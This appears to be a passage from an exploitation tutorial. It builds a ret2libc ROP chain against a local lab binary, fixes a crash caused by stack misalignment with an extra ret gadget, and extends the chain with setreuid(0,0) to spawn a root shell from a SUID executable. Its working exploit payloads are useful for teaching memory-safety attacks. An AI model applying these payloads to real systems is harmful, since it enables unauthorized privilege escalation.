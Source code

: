 The code is then the following (`cat` is necessary for keeping the shell open):
```bash
(python3 -c "from struct import pack; import sys; sys.stdout.buffer.write(
    b'A' * 104 +                        # Padding to reach the return address
    pack('<Q', 0x0000555555555273) +    # Address of pop rdi; ret in function __libc_csu_init
    pack('<Q', 0x000055555555603f) +    # Address of "/bin/sh" in function main
    pack('<Q', 0x00007ffff7e18410)      # Address of function system
    )"; cat) | ./vulnerable
```

Unfortunately, this only yields a segmentation fault.
After investigating by debugging, it can be found that the segfault occurs during the `movaps xmmword ptr [rsp + 0x50], xmm0` instruction in `do_system`.
The segfault occurs because the stack pointer (here included by `rsp`) is not properly aligned.
`movaps` requires the memory address to be aligned on 16 bytes (see [Intel instruction set reference](https://www.intel.com/content/dam/www/public/us/en/documents/manuals/64-ia-32-architectures-software-developer-instruction-set-reference-manual-325383.pdf#page=701)).
When the segfault occurs, the `rsp` register contains the value `0x7fffffffdeb8`, which obviously is not aligned to 16 bytes (last hex digit has to be `0`).
By extending our data to be copied onto the stack by 8 bytes, we can achieve proper alignment.   
As 64 bit addresses are exactly 8 bytes, the easiest way to achieve that is by adding an address to the stack that doesn't change our execution.
This could be the address of a `ret` instruction before our `pop rdi; ret` gadget.
Such an instruction has no effect: when we return to this instruction, it immediately returns to the next instruction which is our exploit code.

Thus, a fixed version of the code is as follows:
```bash
(python3 -c "from struct import pack; import sys; sys.stdout.buffer.write(
    b'A' * 104 +                        # Padding to reach the return address
    pack('<Q', 0x00005555555551da) +    # Address of ret in function vuln
    pack('<Q', 0x0000555555555273) +    # Address of pop rdi; ret in function __libc_csu_init
    pack('<Q', 0x000055555555603f) +    # Address of "/bin/sh" in function main
    pack('<Q', 0x00007ffff7e18410)      # Address of function system
    )"; cat) | ./vulnerable
```

If the SUID bit is set on the executable and it is owned by root, we can spawn a root shell with the following code:
```bash
(python3 -c "from struct import pack; import sys; sys.stdout.buffer.write(
    b'A' * 104 +                        # Padding to reach the return address
    pack('<Q', 0x00005555555551da) +    # Address of ret in function vuln
    pack('<Q', 0x0000555555555273) +    # Address of pop rdi; ret in function __libc_csu_init
    pack('<Q', 0x0000000000000000) +    # Value 0 => uid of root
    pack('<Q', 0x0000555555555271) +    # Address of pop rsi; pop r15; ret in function __libc_csu_init
    pack('<Q', 0x0000000000000000) +    # Value 0 => uid of root (into rsi)
    pack('<Q', 0x4141411411414141) +    # Junk (into r15)
    pack('<Q', 0x00007ffff7eda920) +    # Address of function setreuid
    pack('<Q', 0x0000555555555273) +    # Address of pop rdi; ret in function __libc_csu_init
    pack('<Q', 0x000055555555603f) +    # Address of "/bin/sh" in function main
    pack('<Q', 0x00007ffff7e18410)      # Address of function system
    )"; cat) | ./vulnerable
```
This code additionally calls `setreuid(0, 0)` before spawning the shell.
